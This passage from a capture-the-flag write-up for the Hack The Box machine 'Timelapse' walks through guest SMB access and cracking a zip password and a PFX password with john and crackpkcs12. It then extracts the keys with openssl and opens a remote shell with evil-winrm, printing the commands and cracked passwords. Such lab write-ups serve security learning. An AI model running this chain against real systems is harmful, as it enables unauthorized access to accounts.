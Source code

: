 ### Smbclient
**command:** `smbclient \\\\timelapse.htb\\Shares -I 10.10.11.152 -u guest`

Now, I connected to `Shares` and download all files to my local machine.
There is interesting file `winrm_backup.zip`

![shares](https://user-images.githubusercontent.com/58801547/161911784-b97848df-58b6-4428-b2d9-ef1dcdbde04d.png)

![zip password](https://user-images.githubusercontent.com/58801547/161912620-b85ab69e-cd31-425e-a163-9c8c201a7e76.png)
> Password protection boi. So, let's crack it

Used `zip2john` to convert zip into a hash format that `johntheripper` can crack.
`zip2john winrm_backup.zip > hash`

Then use `john` with wordlist `rockyou.txt`
```
winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip

1 password hash cracked, 0 left
```
> The password is `supremelegacy`

After extracting files, I got `legacyy_dev_auth.pfx` looks like it was an SSL-certificate file that you can use to authentication with the webserver or maybe `winrm`; then I tried to open it.

![image](https://user-images.githubusercontent.com/58801547/161914639-6e34e150-3466-4e42-973d-f7e1f05e6b51.png)
> Yikes, another password protection (for private key), Let's crack it again.

This time I use `crackpkcs12` program from github. Thanks to **Aestu** & **MarcoFalke**.

![crackpkcs12](https://user-images.githubusercontent.com/58801547/161916344-ed68aab6-5f53-4b22-97f9-d5b9214d672b.png)
> The password to unlock SSL-certificate is `thuglegacy`

After examine the certificate look like it purpose was to authenticate to the `winrm`.

![certificate details](https://user-images.githubusercontent.com/58801547/161916573-2e68fd70-18a0-4749-b49f-d1ba9d9a44a4.png)

I need `public key` and `private key` to authenticate to winrm but now I already got them I just need to extract them from certificate file.

Now, I got enough informations to obtain the shell users. Let's go to exploitation part.

## Exploitation

Public Key: `openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem`

Private Key: `openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem`

Use `evil-winrm` with both keys connected to the target machine.

```
3cat@kali:~/Desktop/HTB/Timelapse$ evil-winrm -i 10.10.11.152 -S -c kuy.cer -k kuy.key

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> ls
```